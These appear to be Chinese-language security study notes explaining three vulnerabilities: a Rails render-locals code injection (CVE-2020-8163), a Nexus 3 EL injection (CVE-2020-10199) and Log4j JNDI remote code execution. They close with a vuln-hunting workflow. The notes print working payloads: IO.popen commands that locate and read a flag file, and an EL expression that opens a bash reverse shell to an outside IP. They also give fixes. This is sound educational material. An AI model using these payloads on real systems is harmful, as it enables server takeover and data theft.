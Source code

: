 # Ruby_on_Rails-CVE-2020-8163 远程执行漏洞

Ruby on Rails是一个web框架，使用ruby语言。

CVE-2020-8163 是 Ruby on Rails 框架的代码注入漏洞。因框架对`render`方法的`locals`参数未严格过滤，攻击者可构造恶意参数，借助`eval`执行注入代码，实现远程命令执行，如读取文件或控制服务器。

修复办法是：将locals参数转换为集合，然后减去rails框架中预留的危险方法名的集合，最后用正则表达式过滤locals参数变量名。

payload：

```
第一个 URL：IO.popen(%27find ../ -name "*flag*"%27).read，利用find命令在上级目录查找含 “flag” 的文件，定位 flag 位置。
第二个 URL：IO.popen(%27cat ../tmp/flag%27).read，通过cat命令读取已定位的../tmp/flag文件内容，获取 flag。
```

# CVE-2020-10199- Nexus 3

Nexus Repository Manager 3 是一款软件仓库。

这个漏洞的使用前提是攻击者必须拥有访问 Nexus 资源库实例的网络权限。

EL表达式用于简化访问数据和执行简单运算的操作，EL表达式执行的松散性，并且未正确过滤输入，刚好可以用来绕过正则表达式的过滤。攻击者通过构造恶意 EL 表达式注入，触发 Java 反射机制执行任意系统命令（如反弹 shell）。

```c++
''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')
```

下面逐步解析这个代码：

1. 获取`Runtime`类的`Class`对象：
   - `''.getClass().forName('java.lang.Runtime')`：`''`是一个空字符串对象，调用其`getClass()`方法获取`String`类的`Class`对象，然后使用`forName()`方法通过类的全限定名`java.lang.Runtime`获取`Runtime`类的`Class`对象。`Runtime`类在 Java 中代表运行时环境，提供了执行系统命令的功能。
2. 获取`exec()`方法：
   - `getMethods()[6]`：调用`Class`对象的`getMethods()`方法获取`Runtime`类的所有公共方法数组，然后通过索引`[6]`获取`exec()`方法（在不同的 Java 版本中，`exec()`方法在数组中的索引可能不同）。`exec()`方法用于执行系统命令。
3. 调用`exec()`方法执行命令：
   - `invoke(null)`：由于`exec()`是`Runtime`类的静态方法，所以调用`invoke()`方法时第一个参数为`null`，这样就可以获取`Runtime`类的实例并调用其`exec()`方法。
   - `exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/192.168.78.131/6060<&1')`：调用`exec()`方法执行反弹 shell 的命令，使目标主机主动连接到攻击者指定的 IP 地址和端口，从而让攻击者获得目标主机的控制权。

# Log4j（log for java）

Apache 是一个开源的 Web 服务器软件，广泛用于托管网站和应用。

Log4j是Apache的一个开源项目，通过使用Log4j，我们可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX守护进程。

在Log4j2中提供了**Lookups**机制，Lookups提供了一种在Log4j配置文件任意位置添加值的方法；而Lookups机制中，存在**JNDI**，在Log4j日志输出时，未对字符合法性进行严格的限制，造成JNDI协议加载的远程恶意脚本被执行，从而造成RCE。

**lookups**的主要功能就是提供另外一种方式以添加某些特殊的值到日志中

**JNDI**主要由两部分组成：Naming（命名）和Directory（目录），其中Naming是指将对象通过唯一标识符绑定到一个上下文Context，同时可通过唯一标识符查找获得对象，而Directory主要指将某一对象的属性绑定到Directory的上下文DirContext中，同时可通过名字获取对象的属性同时操作属性。

JNDI主要由JNDI API和JNDI SPI两部分组成，Java应用程序通过JNDI API访问目录服务，而JNDI API会调用Naming Manager实例化JNDI SPI，然后通过JNDI SPI去操作命名或目录服务其如LDAP， DNS，RMI等，JNDI内部已实现了对LDAP，DNS， RMI等目录服务器的操作API。

通过上面可以知道，JNDI可以实现对LADP、RMI等服务的操作，所以攻击者只需要构建一个LADP或RMI远程服务即可，让远程服务器返回恶意class。

**LADP**（Lightweight Directory Access Protocol）：顾名思义，一个轻量级的目录访问协议，用来访问目录服务（Directory Service）。那么LDAP协议作为一个访问协议，它在技术架构的表现上是一个CS架构模式：以IDaaS为例，IDaaS产品要解决的三个问题，都是会作为LDAP Client去访问LDAP Server（这里LDAP Server和Directory Service等同了），来实现功能

**RMI**（即Remote Method Invocation）是Java平台一个分布式应用程序的应用编程接口（API），它是Java Remote Method Protocol（JRMP）的实现，这个协议代表了Java语言特有的远程过程调用（RPC）系统。RMI允许一个对象通过一个网络在另外一个虚拟机上被调用，这些对象称之为远程对象。

**攻击者定义一个接口，在接口中定义数据库操作等。**
**攻击者携带lookup支持表达式进行请求服务器。**
**服务器通过log4j打印出请求信息。**
**log4j打印完成后会执行JNDI操作。**
![image-20250311220403405](实习问题.assets/image-20250311220403405.png)

解决办法：禁用使用JNDI或者升级

# CVE常见漏洞与暴露、CWE常见弱点枚举

1. 拒绝服务攻击
2. 远程代码执行
3. 缓冲区溢出
4. 内存破坏
5. SQL 注入
6. 跨站脚本攻击（XSS）
7. 目录遍历
8. HTTP 响应分割攻击

# 挖漏洞流程

1. 端口扫描与服务识别：网站敏感目录和文件（robots.txt），旁站（同一服务器的其他网站）和C段扫描（同一网段的其他服务器）
2. 访问服务并识别漏洞
3. 查找并利用已知漏洞
4. 漏洞利用
5. 获取反向 Shell